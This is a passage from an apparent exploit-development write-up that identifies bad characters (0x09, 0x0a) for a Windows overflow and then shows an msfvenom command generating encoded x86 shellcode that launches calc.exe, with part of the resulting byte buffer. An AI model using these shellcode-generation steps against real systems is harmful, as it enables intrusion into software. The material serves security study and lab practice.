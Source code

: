 As seen, the byte 09 is taken as a bad character. Normally, 09 is not a bad character, on the other hand, 0a, which is the following byte to 09, is normally a terrible character as it means "line feed", used for CRLF combination. It is probable that 09 is being detected for such reason.

If the process is yet repeated, 0a is taken as a bad character:

![](/assets/img/Findings2/19.png)

If the chain is yet once again sent without either 0a, but with 09 in it, the bytes are processed without any issue:

![](/assets/img/Findings2/20.png)

## Last but not least, shellcode

The final part, shellcode is generated:

```term_session
root@kali:~# msfvenom -p windows/exec CMD=calc.exe -f py -b "\x00\x0a" EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of py file: 1078 bytes
buf =  b""
buf += b"\xbf\xb8\xc2\xd4\x1e\xdb\xc9\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x31\x83\xc2\x04\x31\x7a\x0f\x03\x7a\xb7\x20"
buf += b"\x21\xe2\x2f\x26\xca\x1b\xaf\x47\x42\xfe\x9e\x47\x30"
buf += b"\x8a\xb0\x77\x32\xde\x3c\xf3\x16\xcb\xb7\x71\xbf\xfc"
```